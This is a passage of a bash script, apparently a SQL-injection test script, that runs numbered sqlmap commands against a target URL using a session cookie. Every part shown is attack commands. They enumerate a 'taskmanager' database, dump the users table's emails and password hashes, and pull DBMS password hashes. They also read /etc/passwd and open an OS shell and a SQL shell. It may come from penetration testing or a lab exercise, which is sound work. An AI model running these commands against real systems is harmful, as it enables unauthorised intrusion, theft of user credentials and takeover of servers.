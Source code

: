 ```bash

# Test 4: Table enumeration
echo "[4] Table enumeration..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       -D taskmanager \
       --tables \
       --batch \
       --output-dir="$OUTPUT_DIR"

# Test 5: Column enumeration for sensitive tables
echo "[5] Column enumeration for users table..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       -D taskmanager \
       -T users \
       --columns \
       --batch \
       --output-dir="$OUTPUT_DIR"

# Test 6: Data extraction from users table
echo "[6] Data extraction from users table..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       -D taskmanager \
       -T users \
       -C id,email,password_hash,first_name,last_name \
       --dump \
       --batch \
       --output-dir="$OUTPUT_DIR"

# Test 7: Search for passwords
echo "[7] Searching for password hashes..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --passwords \
       --batch \
       --output-dir="$OUTPUT_DIR"

# Test 8: File system access (if possible)
echo "[8] Testing file system access..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --file-read="/etc/passwd" \
       --batch \
       --output-dir="$OUTPUT_DIR"

# Test 9: OS shell access (advanced)
echo "[9] Testing OS shell access..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --os-shell \
       --batch \
       --output-dir="$OUTPUT_DIR"

# Test 10: SQL shell access
echo "[10] Testing SQL shell access..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --sql-shell \
       --batch \
       --output-dir="$OUTPUT_DIR"

```